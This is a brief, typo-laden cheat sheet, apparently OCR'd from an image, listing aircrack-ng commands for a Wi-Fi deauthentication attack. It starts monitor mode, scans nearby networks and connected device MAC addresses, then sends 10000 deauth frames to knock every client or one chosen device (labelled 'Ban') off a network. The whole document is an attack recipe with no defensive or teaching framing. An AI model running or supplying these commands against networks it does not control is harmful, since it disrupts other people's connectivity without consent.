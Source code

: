 wlan0 or the interface you have
/usr/sbin/airmon-ng/
May require ((wlan0 or interface))mon 

sudo airmon-ng check kil
//kill conflicts
sudo airmon-ng start wlan0
//Start monitor mode

sudo airodump-ng wlan0mon 
//Reachable stations and network mac

airodump-ng --bssid 'network mac' --channel 'channel' wlan0
/// View conmected device mac 
/// Identify network channel

aireplay-ng --deauth 10000 -a 'network mac' wlan0
///Because no channel here
/// Send deauth (codex) to broadcast

##############
Ban
aireplay-ng --deauth 10000 -a 'network mac' -c 'device mac'  
